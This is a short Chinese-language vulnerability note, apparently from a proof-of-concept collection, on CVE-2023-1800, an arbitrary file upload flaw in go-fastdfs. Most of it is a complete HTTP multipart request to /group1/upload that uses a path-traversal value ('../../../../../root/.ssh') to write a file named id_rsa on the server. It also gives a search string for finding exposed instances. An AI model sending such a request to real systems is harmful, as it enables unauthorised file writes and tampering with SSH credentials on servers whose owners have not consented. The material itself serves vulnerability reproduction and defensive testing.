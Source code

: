 # 

# Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

## 漏洞描述

Go-fastdfs upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，攻击服务器

## 漏洞影响

```
Go-fastdfs
```

## 网络测绘

```
"go-fastdfs"
```

## 漏洞复现

主页面

![image-20230417094508409](images/image-20230417094508409.png)

验证POC

```
POST /group1/upload HTTP/1.1
Host: 
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="id"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

id_rsa
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../root/.ssh
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--
```

![image-20230417100221820](images/image-20230417100221820.png)

![image-20230417100230696](images/image-20230417100230696.png)
